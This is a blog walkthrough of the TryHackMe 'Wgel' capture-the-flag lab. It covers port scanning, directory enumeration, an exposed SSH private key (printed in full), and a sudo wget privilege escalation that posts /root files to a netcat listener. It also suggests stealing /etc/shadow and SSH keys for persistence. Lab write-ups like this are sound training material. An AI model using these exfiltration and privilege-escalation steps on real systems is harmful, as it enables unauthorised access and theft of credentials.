 ```yaml
---
title: "Simple Boot to Root: Wgel CTF Walkthrough"
datePublished: Tue Aug 15 2023 12:44:50 GMT+0000 (Coordinated Universal Time)
cuid: cllcaq92z00020ajv636kebt5
slug: wgel-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1692102272955/2dc3f231-812c-4e86-9fbd-5e533b5f883c.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ethicalhacking

---
```


This is a straightforward boot-to-root walkthrough of the [Wgel](https://tryhackme.com/room/wgelctf) CTF found on [TryHackMe](https://tryhackme.com). The objective of this room is to perform active reconnaissance on a web server, obtain credentials, and log in using an exposed SSH key. The final step involves elevating to root by employing a privilege escalation technique with the `wget` binary.

### Step 1: What's Out There?

```plaintext
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/9%OT=22%CT=1%CU=30945%PV=Y%DS=4%DC=T%G=Y%TM=64AB91B3
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(SP=10
OS:4%GCD=1%ISR=109%TI=Z%CI=RD%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%TS=A)SEQ(S
OS:P=107%GCD=1%ISR=109%TI=Z%CI=I%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%T
OS:S=A)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=
OS:M509ST11NW7%O6=M509ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=6
OS:8DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0
OS:%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.132 days (since Tue May 23 19:55:59 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We are examining two ports: `22` and `80`. Given that we can't do much with SSH unless we attempt to brute force it, and without a username, we would be relentlessly attacking this service, wasting time and probably making no progress. Therefore, the best approach is to enumerate the webserver to find a way in.

Default Apache2 Landing Page:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102430397/7966773b-6539-41dc-aeaa-533458969c49.png align="center")

The source code reveals a potential username: `Jessie`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102478196/1cbd7a70-e967-45e2-8919-08317e1dc565.png align="center")

### Step 2: Enumerate Using Gobuster

```bash
gobuster dir --url http://10.10.56.178/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 100 -q
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102543441/959ab724-51fd-49f6-a135-4ba7216efe22.png align="center")

Let's navigate to [`http://10.10.56.178/sitemap/.ssh/`](http://10.10.56.178/sitemap/.ssh/)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102577951/43dd3297-168f-4074-a32b-b99ddfd7788a.png align="center")

```plaintext
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

Excellent! An unsecured SSH key without a passphrase. We can easily generate our `id_rsa` key, set the permissions, and log in to the web server using this.

### Step 3: Log in

Copy and paste the key into a text file and name it `id_rsa`. Adjust the permissions:

```bash
sudo chmod 600 id_rsa
```

Log in:

```bash
ssh -i id_rsa jessie@10.10.56.178
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102825560/6035435a-f341-4528-8f98-1d7ab5ffa6b9.png align="center")

Our first flag can be found at this location:

```bash
/home/jessie/Documents
```

### Step 4: Privesc and Root

Now that we have a foothold on the server, let's explore what we can use to elevate our privileges. First, I like to check what the user is allowed to run as `sudo`. We can do this by typing:

```bash
sudo -l
```

Looks like we can use the binary:

```bash
/usr/bin/wget
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102993678/fac3ffc0-02ac-4f07-aedc-b4cca60b1507.png align="center")

Upon seeing something like this, your mind should instantly consider privilege escalation. [GTFObins](https://gtfobins.github.io/) is a valuable resource for finding elevation techniques.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103102039/6243510d-5697-42ff-90bd-6fdb2c9af820.png align="center")

We can transmit content to our attack box with `sudo` privileges, effectively granting us access to view materials that would otherwise be restricted. We can easily use `wget` to display the root flag.

Start a netcat listener:

```bash
nc -lvnp 80
```

From the web server:

```bash
sudo /usr/bin/wget http://10.13.28.215:80 --post-file=/root/root_flag.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103281913/d6604069-0fd0-46bd-9cd4-140bbcc6eb0c.png align="center")

Boom, we've obtained the root flag. From here, we can use this binary to acquire other `SSH` keys, the `/etc/shadow` file, and more to help us maintain persistence.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103417697/0d0e1534-594d-4cfb-b42a-fff74ab2495a.jpeg align="center")